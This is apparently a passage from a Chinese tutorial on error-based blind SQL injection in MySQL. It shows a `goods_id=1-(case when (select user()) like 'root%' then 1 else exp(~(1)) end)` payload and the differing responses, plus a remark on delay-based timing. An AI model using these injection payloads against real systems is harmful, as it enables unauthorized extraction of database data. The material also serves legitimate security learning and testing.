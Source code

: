 

```plain
mysql> select * from tdb_goods where goods_id=1;
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```



# 0x02 测试



- 注意:
- 如果使用了like又使用了延时会导致全表查询
- 例如:
- tdb_goods 表 数据为 23 条
- 延时 0.1S
- 0.1 * 23 = 2.3S 最后会延时2.3S 所以要尽量避免这样干



```html
// 正确的情况
// 会返回原来的数据页面保持不变
mysql> select * from tdb_goods where goods_id=1-(case when (select user()) like 'root%' then 1 else exp(~(1)) end);
+----------+----------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+----------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本       | 笔记本     | 华硕      |    3399.000 |       1 |          0 |
+----------+----------------------------+------------+------------+-------------+---------+------------+
1 row in set (0.00 sec)
```



```html
// 错误的情况
// 页面会爆错，如果关闭了错误提示，页面的数据会为空
mysql> select * from tdb_goods where goods_id=1-(case when (select user()) like 'roota%' then 1 else exp(~(1)) end);
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(1))'
```
